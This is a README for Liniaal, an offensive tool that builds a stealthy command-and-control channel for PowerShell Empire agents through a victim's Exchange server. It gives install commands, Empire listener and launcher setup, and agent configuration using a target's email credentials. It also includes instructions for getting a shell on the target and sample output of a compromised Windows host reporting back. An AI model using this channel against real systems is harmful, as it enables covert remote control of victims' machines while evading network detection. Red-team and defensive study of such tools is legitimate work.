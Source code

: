 # Introduction

Liniaal allows for the creation of a C2 channel for Empire agents, through an Exchange server. All communication is done through MAPI/HTTP or RPC/HTTP and directly between the Liniaal agent and the Exchange server. No traffic traverses the traditional network boundary as plain HTTP, bypassing most network based detection and blocking.

Liniaal allows Empire to be used as usual, through a high latency, stealthy channel.


# Getting the Code

Liniaal depends heavily on the libraries created by [Ruler]. To interface with Powershell [Empire] you will require the 2.0_dev branch.

Dependencies:

* [Ruler]  
* [golang.org/x/crypto/ssh/terminal]
* [Empire] version 2.0_dev

The simpliest way to get Liniaal is to use `go get`:

```
go get github.com/sensepost/liniaal
```

Alternatively you can `git clone` the relevant components into your GOPATH:

```
git clone github.com/sensepost/ruler
git clone github.com/sensepost/liniaal
```

## Building

You can build your own binaries using Go:

```
cd liniaal
go build
```

## Pre-built Binaries

Compiled binaries for Linux, OSX and Windows are available. Find these in [Releases]

# Usage

**Note:** *Outlook will need to be open on your target's host! The Empire agent uses the MAPI end-points exposed by Outlook and these are only available while Outlook is running*

Firstly copy the [stager] and [listener] to the relevant directories within Empire.

```
cp empire/data/stagers/http_mapi.ps1 /opt/empire/data/stagers/
cp empire/lib/listeners/http_mapi.py /opt/empire/lib/listeners/
```

### Setting up Empire listener

To setup the listener within Empire:

```
(Empire) > listeners
(Empire: listeners) > uselistener http_mapi
```

The only new option is **Folder** which allows you to specify a name for the hidden folder used for communication. The default folder name is **Liniaal**.
Change this if you wish and then execute the listener.

```
(Empire: listeners/http_mapi) > set Folder Liniaal
(Empire: listeners/http_mapi) > execute
```

Now create your launcher: *Liniaal only supports powershell agents!*

```
(Empire: listeners/http_mapi) > launcher powershell
```

### Setup Liniaal

Now that Empire is up and running, you need to setup the Liniaal agent to translate/transfer requests between Empire and Exchange.

```
./liniaal

Liniaal - a communication extension to Ruler
use 'options' to view settings for your agent. 'set key value' to change settings.
For anything else, use 'help'
> options
== Agent options ==
Password                                            The password for the target user
Folder               Liniaal                        The name of the hidden folder
Host                 http://localhost:8080          The address of our Empire listener
URL                                                 A custom autodiscover end-point
EmailAddress         demo@outlook.com               The target mailbox/email address
Username                                            The username of our target user, if required
Domain                                              The domain of our target user, if required
>
```

The interface is similar to Empire and allows you to set the required fields. These are similar to those used in Ruler. THe important fields are:

* EmailAddress
* Username   (except for Office365/Outlook domains)
* Password
* Folder
* Host

Ensure that the **Folder** is the same as set in [Empire].
**Host** is our Empire listener address.

```
> set Folder Liniaal
> set EmailAddress test@outlook.com
> set Host http://localhost:8080
```

Once the required values are set, start the Liniaal agent:

```
> run

[+] Agent Listening  
```

The agent's status/actions will be shown and dynamically updated.

### Get your shell

Now your communication channel is setup, you can execute the powershell launcher (generated through Empire) on your target. How you do this depends fully on you. You could even pop it through [Ruler].

The channel is slow, it can take upto two minutes for the Empire agent to be come active and usable through Empire. You should see the following while the agent is communicating through Liniaal:

```
[+] Sent response to agent at: 14/03/2017 03:56:44 PM
```

Once the agent is setup you can use the agent through the Empire inteface as you normally would.

```
(Empire: listeners/http_mapi) > [+] Initial agent XAYZUNLW from 172.17.0.1 now active
(Empire: listeners/http_mapi) > agents
[*] Active agents:                                                                                                             │
                                                                                                                               │
  Name            Lang  Internal IP     Machine Name    Username            Process             Delay    Last Seen             │
  ---------       ----  -----------     ------------    ---------           -------             -----    --------------------  │
  XAYZUNLW        ps    192.168.122.18  DESKTOP-DNST7G1 DESKTOP-DNST7G1\Etiepowershell/2732     20/0.0   2017-03-14 15:59:20   │
                                                                                                                               │
(Empire: agents) > interact XAYZUNLW                                                                                           │
(Empire: XAYZUNLW) > sysinfo
(Empire: XAYZUNLW) > sysinfo: 0|http://172.17.0.2:8080|DESKTOP-DNST7G1|Etienne|DESKTOP-DNST7G1|192.168.122.18|Microsoft Windows│
 10 Home|False|powershell|2732|powershell|5                                                                                    │
                                                                                                                               │
Listener:         http://172.17.0.2:8080                                                                                       │
Internal IP:    192.168.122.18                                                                                                 │
Username:         DESKTOP-DNST7G1\Etienne                                                                                      │
Hostname:       DESKTOP-DNST7G1                                                                                                │
OS:               Microsoft Windows 10 Home                                                                                    │
High Integrity:   0                                                                                                            │
Process Name:     powershell                                                                                                   │
Process ID:       2732                                                                                                         │
Language:         powershell                                                                                                   │
Language Version: 5       
```

# Caveats

As noted before, Liniaal requires Outlook to be running. You will also require valid credentials for the target user. And it is assumed you have a way to run code on the target host.

The Powershell agent does not have any persistence or ability to respawn itself. It is also *dumb* at the moment; if Outlook stops running, the agent stops running and you will need to get it back manually (PR requests with a fix are welcome!)

[Ruler]:<https://github.com/sensepost/ruler>
[golang.org/x/crypto/ssh/terminal]:<golang.org/x/crypto/ssh/terminal>
[Releases]: <https://github.com/sensepost/liniaal/releases>
[Empire]:<https://github.com/EmpireProject/Empire/tree/2.0_beta>
[stager]:<https://github.com/sensepost/liniaal/blob/master/empire/data/stagers/http_mapi.ps1>
[listener]:<https://github.com/sensepost/liniaal/blob/master/empire/lib/listeners/http_mapi.py>
